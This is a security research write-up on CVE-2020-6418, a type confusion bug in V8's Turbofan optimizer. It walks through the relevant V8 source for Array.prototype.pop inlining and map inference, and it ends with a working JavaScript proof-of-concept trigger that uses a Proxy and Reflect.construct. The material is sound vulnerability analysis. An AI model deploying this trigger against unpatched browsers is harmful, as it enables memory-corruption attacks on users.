

CVE-2020-6418 Type Confusion V8
CVE-2020-6418 | Incorrect Optimization
Research Done By Ravshan Rikhsiev (2023)
| Type Of Vulnerability | Type Confusion |
|---|---|
| Security Severity | High |
| Effected Components | Javascript, Turbofan, Optimizer |
| Issue Source | https://issues.chromium.org/issues/40051542 |
| Writeup Source(s) | Later |
| Tested Version | V8 8.2.0 |
| Vulnerable commit | bdaa7d66a37adcc1f1d81c9b0f834327a74ffe07 |
CVE-2020-6418 is a security vulnerability that was identified in the V8 JavaScript engine, which is used in various web browsers including Google Chrome. This vulnerability was reported by Clement Lecigne of Google’s Threat Analysis Group on 2020-02-18 [1] and assigned CVE-2020-6418. It was classified as a type confusion bug in the V8 engine.
The vulnerability occurs due to an incorrect optimization in the V8 JavaScript engine. It allows an attacker to trigger a type confusion bug, leading to potential security risks.
The stable channel has been updated to 80.0.3987.122 for Windows, Mac, and Linux
Background
The Turbofan compiler in the V8 JavaScript engine uses assumptions to determine the types of objects in dynamic languages like JavaScript. However, these assumptions can sometimes lead to issues with typing, such as when determining the type for operations like a + 1, where a could be a string or an integer. This can result in incorrect optimizations and potentially introduce security vulnerabilities like type confusion bugs.
During runtime, the Map (Hidden Class) [2] of objects can be altered based on different processes. For instance, consider a basic array containing integer values. [3]
const array = [1, 2, 3];
// elements kind: PACKED_SMI_ELEMENTS
array.push(4.56);
// elements kind: PACKED_DOUBLE_ELEMENTS
Adding a string literal to the array changes its elements kind once again.
const array = [1, 2, 3];
// elements kind: PACKED_SMI_ELEMENTS
array.push(4.56);
// elements kind: PACKED_DOUBLE_ELEMENTS
array.push('x');
// elements kind: PACKED_ELEMENTS
So far, we’ve encountered three primary types of array elements, each associated with distinct internal representations:
- Small integers (Smi): These are compact integer values that fit within the size of a machine word without requiring extra memory allocation. They’re utilized for efficient storage and processing of small integer numbers.
- Doubles: This category encompasses floating-point numbers and integers that cannot be represented as Smi values. Doubles offer a broader range of numerical representation compared to Smi values.
- Regular elements: These represent values that cannot be categorized as Smi or doubles. They provide a more general storage mechanism for array elements.
It’s important to note that elements kind transitions in V8 only proceed in one direction, moving from specific types (e.g., PACKED_SMI_ELEMENTS) to more general types (e.g., PACKED_ELEMENTS). Once an array is categorized as PACKED_ELEMENTS, it cannot revert to a more specific category such as PACKED_DOUBLE_ELEMENTS.
const array = [1, 2, 3, 4.56, 'x'];
// elements kind: PACKED_ELEMENTS
array.length; // 5
array[9] = 1; // array[5] until array[8] are now holes
// elements kind: HOLEY_ELEMENTS
Additionally, V8 distinguishes between packed and holey array kinds. When an array contains holes (empty slots), it transitions from a packed representation to a holey representation. This change occurs dynamically during runtime, and it impacts the efficiency of array operations.
In summary:
- V8 categorizes arrays based on their elements kind.
- The elements kind of an array can change dynamically during runtime, transitioning from specific to more general categories.
- Operations on packed arrays are typically more efficient than those on holey arrays due to optimized handling.
- Each basic elements kind has both packed and holey variants, and transitions can occur between them.
Root Cause Analysis
According n-day report by Google’s TAG [1], vulnerability lies in the function NodeProperties::InferReceiverMapsUnsafe in file v8/src/compiler/node-properties.cc .
And how we came to this vulnerability and how we catch it or trigger:
During an Inlining Phase, Turbofan will call JSCallReducer , it is fundamental mechasim to build simplified graph.
-
Builltins inlined in two places in turbofan
- In the
JSCallReducerthat runs during the inlining and native context specialization pass, and - In the
JSBuiltinReducerthat runs during the typed lowering pass.
The idea so far was that builtins which can only be inlined based on type information from the surrounding graph will be inlined late in the
JSBuiltinReducer, whereas higher order builtins like for example Array.prototype.map, Function.prototype.apply and Function.prototype.bind that might provide additional inlining opportunities need to be handled early on in theJSCallReducer. [4] - In the
Turbofan will call JSCallReducer::ReduceJSCall to optimize the builtin function. The main logic is to jump to different optimization branches based on builtin_id:
// v8/src/compiler/js-call-reducer.cc#L3906
Reduction JSCallReducer::ReduceJSCall(Node* node,
const SharedFunctionInfoRef& shared) {
DCHECK_EQ(IrOpcode::kJSCall, node->opcode());
Node* target = NodeProperties::GetValueInput(node, 0);
// Do not reduce calls to functions with break points.
if (shared.HasBreakInfo()) return NoChange();
// Raise a TypeError if the {target} is a "classConstructor".
if (IsClassConstructor(shared.kind())) {...}
// Check for known builtin functions.
int builtin_id =
shared.HasBuiltinId() ? shared.builtin_id() : Builtins::kNoBuiltinId;
switch (builtin_id) {
case Builtins::kArrayConstructor:
return ReduceArrayConstructor(node);
case Builtins::kBooleanConstructor:
return ReduceBooleanConstructor(node);
...
case Builtins::kArrayPrototypePush:
return ReduceArrayPrototypePush(node);
// Here JSCallReducer::ReduceArrayPrototypePop jumps into optimized implementation of
// Array.prototype.pop()
case Builtins::kArrayPrototypePop:
return ReduceArrayPrototypePop(node);
...
In this context, Builtins::kArrayPrototypePop is selected for analysis, and jumps to the optimized implementation of JSCallReducer::ReduceArrayPrototypePop, which is specifically designed to handle the Array.prototype.pop() function.
// v8/src/compiler/js-call-reducer.cc#L4911
Reduction JSCallReducer::ReduceArrayPrototypePop(Node* node) {
DisallowHeapAccessIf disallow_heap_access(should_disallow_heap_access());
DCHECK_EQ(IrOpcode::kJSCall, node->opcode());
CallParameters const& p = CallParametersOf(node->op());
if (p.speculation_mode() == SpeculationMode::kDisallowSpeculation) {
return NoChange();
}
//->
Node* receiver = NodeProperties::GetValueInput(node, 1);
Node* effect = NodeProperties::GetEffectInput(node);
Node* control = NodeProperties::GetControlInput(node);
MapInference inference(broker(), receiver, effect);
if (!inference.HaveMaps()) return NoChange();
MapHandles const& receiver_maps = inference.GetMaps();
//<-
std::vector<ElementsKind> kinds;
if (!CanInlineArrayResizingBuiltin(broker(), receiver_maps, &kinds)) {
return inference.NoChange();
}
if (!dependencies()->DependOnNoElementsProtector()) UNREACHABLE();
inference.RelyOnMapsPreferStability(dependencies(), jsgraph(), &effect,
control, p.feedback());
std::vector<Node*> controls_to_merge;
std::vector<Node*> effects_to_merge;
std::vector<Node*> values_to_merge;
Node* value = jsgraph()->UndefinedConstant();
Node* receiver_elements_kind =
LoadReceiverElementsKind(receiver, &effect, &control);
Node* next_control = control;
Node* next_effect = effect;
for (size_t i = 0; i < kinds.size(); i++) {
ElementsKind kind = kinds[i];
control = next_control;
effect = next_effect;
// We do not need branch for the last elements kind.
The main goal of the JSCallReducer::ReduceArrayPrototypePop function is to optimize the pop operation on arrays by efficiently handling the removal of the last element. This optimization relies on knowing the type of array elements, called ElementsKind. The optimization process involves:
- Determining the current length of the array based on its
ElementsKind. - Calculating the new length after the
popoperation. - Returning the last element that was removed from the array.
- Marking the position of the removed element as
hole.

To achieve this optimization, it’s crucial to accurately infer the type of the array elements. This inference is done by MapInference, which examines the chain of effects to determine if the array’s type is certain and if it’s likely to change. If the array’s type is reliably inferred, the optimization can proceed.
// v8/src/compiler/js-call-reducer.cc#L4911
Reduction JSCallReducer::ReduceArrayPrototypePop(Node* node) {
...
MapInference inference(broker(), receiver, effect);
if (!inference.HaveMaps()) return NoChange();
MapHandles const& receiver_maps = inference.GetMaps();
...
MapInference class calls its constructor method:
// v8/src/compiler/map-inference.h#L25&L95
class MapInference {
public:
MapInference(JSHeapBroker* broker, Node* object, Effect effect);
...
// Records stability dependencies if possible, otherwise it inserts map
// checks. Does nothing if maps were already reliable. Returns true iff
// dependencies were taken.
bool RelyOnMapsPreferStability(CompilationDependencies* dependencies,
JSGraph* jsgraph, Node** effect, Node* control,
const FeedbackSource& feedback);
...
// v8/src/compiler/map-inference.cc#L18&L120
MapInference::MapInference(JSHeapBroker* broker, Node* object, Node* effect)
: broker_(broker), object_(object) {
ZoneHandleSet<Map> maps;
auto result =
NodeProperties::InferReceiverMapsUnsafe(broker_, object_, effect, &maps);
maps_.insert(maps_.end(), maps.begin(), maps.end());
maps_state_ = (result == NodeProperties::kUnreliableReceiverMaps)
? kUnreliableDontNeedGuard
: kReliableOrGuarded;
DCHECK_EQ(maps_.empty(), result == NodeProperties::kNoReceiverMaps);
}
...
bool MapInference::RelyOnMapsPreferStability(
CompilationDependencies* dependencies, JSGraph* jsgraph, Node** effect,
Node* control, const FeedbackSource& feedback) {
CHECK(HaveMaps());
if (Safe()) return false;
if (RelyOnMapsViaStability(dependencies)) return true;
CHECK(RelyOnMapsHelper(nullptr, jsgraph, effect, control, feedback));
return false;
}
...
In turn, the MapInference function calls NodeProperties::InferReceiverMapsUnsafe for reliable inference of object types:
// v8/src/compiler/map-inference.cc#L337
NodeProperties::InferReceiverMapsResult NodeProperties::InferReceiverMapsUnsafe(
JSHeapBroker* broker, Node* receiver, Node* effect,
ZoneHandleSet<Map>* maps_return) {
HeapObjectMatcher m(receiver);
if (m.HasValue()) {
HeapObjectRef receiver = m.Ref(broker);
// We don't use ICs for the Array.prototype and the Object.prototype
// because the runtime has to be able to intercept them properly, so
// we better make sure that TurboFan doesn't outsmart the system here
// by storing to elements of either prototype directly.
//
// TODO(bmeurer): This can be removed once the Array.prototype and
// Object.prototype have NO_ELEMENTS elements kind.
if (!receiver.IsJSObject() ||
!broker->IsArrayOrObjectPrototype(receiver.AsJSObject())) {
if (receiver.map().is_stable()) {
// The {receiver_map} is only reliable when we install a stability
// code dependency.
*maps_return = ZoneHandleSet<Map>(receiver.map().object());
return kUnreliableReceiverMaps;
}
}
}
InferReceiverMapsResult result = kReliableReceiverMaps;
while (true) {
switch (effect->opcode()) {
case IrOpcode::kMapGuard: {
Node* const object = GetValueInput(effect, 0);
if (IsSame(receiver, object)) {
*maps_return = MapGuardMapsOf(effect->op());
return result;
}
break;
}
case IrOpcode::kCheckMaps: {
Node* const object = GetValueInput(effect, 0);
if (IsSame(receiver, object)) {
*maps_return = CheckMapsParametersOf(effect->op()).maps();
return result;
}
break;
}
case IrOpcode::kJSCreate: {
if (IsSame(receiver, effect)) {
base::Optional<MapRef> initial_map = GetJSCreateMap(broker, receiver);
if (initial_map.has_value()) {
*maps_return = ZoneHandleSet<Map>(initial_map->object());
return result;
}
// We reached the allocation of the {receiver}.
return kNoReceiverMaps;
}
break;
}
...
NodeProperties::InferReceiverMapsUnsafe checks each operation in the effect chain to see if any operation modifies the type of the object. If the object’s type remains unchanged throughout the chain, it returns kReliableReceiverMaps. Otherwise, if the type might change or if there is no receiver maps information available, it returns kUnreliableReceiverMaps or kNoReceiverMaps, respectively.
// v8/src/compiler/map-inference.cc#L18
MapInference::MapInference(JSHeapBroker* broker, Node* object, Node* effect)
: broker_(broker), object_(object) {
...
//-->
maps_state_ = (result == NodeProperties::kUnreliableReceiverMaps)
? kUnreliableDontNeedGuard
: kReliableOrGuarded;
DCHECK_EQ(maps_.empty(), result == NodeProperties::kNoReceiverMaps);
//<--
...
}
In this process it returns NodeProperties::kReliableReceiverMaps which is not equal to NodeProperties::kUnreliableReceiverMaps and sets kReliableOrGuarded to map_state_ as below
// v8/src/compiler/map-inference.h#L86
enum {
kReliableOrGuarded,
kUnreliableDontNeedGuard,
kUnreliableNeedGuard
} maps_state_;
Finally, JSCallReducer::ReduceArrayPrototypePop is returned, and MapInference::RelyOnMapsPreferStability is called to determine whether it is necessary to join the CheckMaps node for object type checking based on maps_state_:
bool MapInference::RelyOnMapsPreferStability(
CompilationDependencies* dependencies, JSGraph* jsgraph, Node** effect,
Node* control, const FeedbackSource& feedback) {
CHECK(HaveMaps());
if (Safe()) return false;
if (RelyOnMapsViaStability(dependencies)) return true;
CHECK(RelyOnMapsHelper(nullptr, jsgraph, effect, control, feedback));
return false;
}
Because the map_state_ was determined to be kReliableOrGuarded, there’s no need to perform a CheckMaps operation on the simplified graph.
POC
ITERATIONS = 10000;
TRIGGER = false;
function f(a, p) {
return a.pop(Reflect.construct(function() {}, arguments, p));
}
let a;
let p = new Proxy(Object, {
get: function() {
if (TRIGGER) {
a[2] = 156842099844.51764; // 0x4242424242
}
return Object.prototype;
}
});
for (let i = 0; i < ITERATIONS; i++) {
let isLastIteration = i == ITERATIONS - 1;
a = [0, 1, 2, 3, 4];
if (isLastIteration)
TRIGGER = true;
if ((ret = f(a, p)) != 4){
console.log("Triggered: 0x" + ret.toString(0x10), ret, a);
}
}
References
[1] https://chromereleases.googleblog.com/2020/02/stable-channel-update-for-desktop_24.html
[2] https://v8.dev/docs/hidden-classes
[3] https://v8.dev/blog/elements-kinds
[4] https://docs.google.com/document/d/1l-oZOW3uU4kSAHccaMuUMl_RCwuQC526s0hcNVeAM1E/edit